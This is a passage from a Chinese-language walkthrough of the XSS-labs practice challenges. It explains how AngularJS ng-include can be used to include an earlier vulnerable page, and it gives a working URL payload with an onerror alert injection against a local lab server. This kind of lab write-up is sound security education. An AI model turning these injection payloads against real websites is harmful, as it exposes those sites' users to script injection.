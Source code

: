 发现这里用了`angular.min.js`的**ng-include**

将国外的`angular.min.js`换成国内的js

```js
https://cdn.staticfile.org/angular.js/1.4.6/angular.min.js
```

其作用相当于php的**include函数**。

这里就是将1.gif这 个**文件包含**进来。

### ng-include指令具体的用法 

1. `ng-include` 指令用于包含外部的 HTML文件。 
2. 包含的内容将作为指定元素的子节点。 
3. ng-include 属性的值可以是一个表达式，返回一个文件名。
4. 默认情况下，包含的文件需要包含在同一个域名下。 

#### 注意： 

1. `ng-include`,如果单纯指定地址，必须要加引号 
2. `ng-include`加载外部html，`script`标签中的内容不执行 
3. `ng-include`加载外部html中含有`style`标签样式可以识别

### 查看网页源代码

```html
<body><span class="ng-include:1.gif"></span></body>
```

![image-20240819224558356](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819224558356.png)

使用了`ng-include`**包含文件**1.gif

既然这里可以包含html文件

那么也就可以**包含之前有过xss漏洞的源文件**

```js
?src='level1.php'
```

### ng-include文件包含

```js
http://192.168.70.10:8084/level15.php?src='level1.php?name=<img src=x onerror=alert(/XSS/)>'
```

![image-20240819224643988](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819224643988.png)

## level16 回车替换空格

### 访问

http://192.168.70.10:8084/level16.php?keyword=test
